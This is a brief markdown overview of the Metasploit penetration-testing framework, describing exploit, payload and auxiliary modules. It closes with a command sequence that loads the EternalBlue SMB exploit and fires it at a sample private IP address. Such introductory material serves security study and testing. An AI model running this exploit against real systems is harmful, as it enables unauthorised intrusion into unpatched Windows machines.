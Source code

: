 

# Metasploit

## Overview
Metasploit is a widely-used framework for developing and executing exploits against vulnerabilities.

## Key Components
- **Exploit Modules** - Code that exploits vulnerabilities.
- **Payloads** - Code that runs on the target system after exploitation.
- **Auxiliary Modules** - Tools for scanning, fuzzing, and more.

## Example
Running an exploit with Metasploit:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit

